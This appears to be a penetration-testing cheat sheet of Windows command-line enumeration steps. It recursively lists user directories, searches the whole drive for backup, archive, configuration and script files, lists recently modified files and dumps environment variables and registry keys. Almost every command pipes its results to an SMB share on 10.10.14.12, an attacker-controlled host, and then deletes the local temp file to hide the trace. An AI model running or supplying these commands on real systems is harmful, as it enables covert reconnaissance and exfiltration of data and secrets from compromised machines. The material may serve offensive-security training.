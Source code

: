 ### Recursive directory listing of Users
```
dir C:\Users\ /s /a /q /r > %temp%\1185 && copy %temp%\1185 \\10.10.14.12\share\dir-users & del %temp%\1185 
```

### Recursive search for files of type
From current directory:
```
dir *.ini /s /a /b
dir *.bat /s /a /b
dir *.cmd /s /a /b
dir *.cmd /s /a /b
```

From root:
```
dir C:\ /s /a /b | findstr /i ".bkf" > %temp%\1187 && copy %temp%\1187 \\10.10.14.12\share\dir-bkf & del %temp%\1187       // Windows Backup files
dir C:\ /s /a /b | findstr /i ".bak" > %temp%\1188 && copy %temp%\1188 \\10.10.14.12\share\dir-bak & del %temp%\1188
dir C:\ /s /a /b | findstr /i ".zip" > %temp%\1189 && copy %temp%\1189 \\10.10.14.12\share\dir-zip & del %temp%\1189
dir C:\ /s /a /b | findstr /i ".7z" > %temp%\1190 && copy %temp%\1190 \\10.10.14.12\share\dir-7z & del %temp%\1190         // 7zip
dir C:\ /s /a /b | findstr /i ".ini" > %temp%\1191 && copy %temp%\1191 \\10.10.14.12\share\dir-ini & del %temp%\1191
dir C:\ /s /a /b | findstr /i ".bat" > %temp%\1192 && copy %temp%\1192 \\10.10.14.12\share\dir-bat & del %temp%\1192
dir C:\ /s /a /b | findstr /i ".cmd" > %temp%\1193 && copy %temp%\1193 \\10.10.14.12\share\dir-cmd & del %temp%\1193
dir C:\ /s /a /b | findstr /i ".conf" > %temp%\1194 && copy %temp%\1194 \\10.10.14.12\share\dir-conf & del %temp%\1194
```

### Recursive modified objects listing
Search for objects modified since the specified data (`+MM/DD/YYYY`) and save to a temp file in a parsable format, copy to share and delete temp file.
```
forfiles /p C:\ /s /d +MM/DD/YYYY /c "cmd.exe /c echo [path=@path][last-modified=@fdate @ftime][is-dir=@isdir]" 2>nul > %temp%\1186 && copy %temp%\1186 \\10.10.14.12\share\modified & del %temp%\1186 
```

### Environment variables
```
set >> \\10.10.14.12\share\env

reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment" > \\10.10.14.12\share\HKLM-env

reg query "HKEY_CURRENT_USER\Environment" > \\10.10.14.12\share\HKCU-env
```
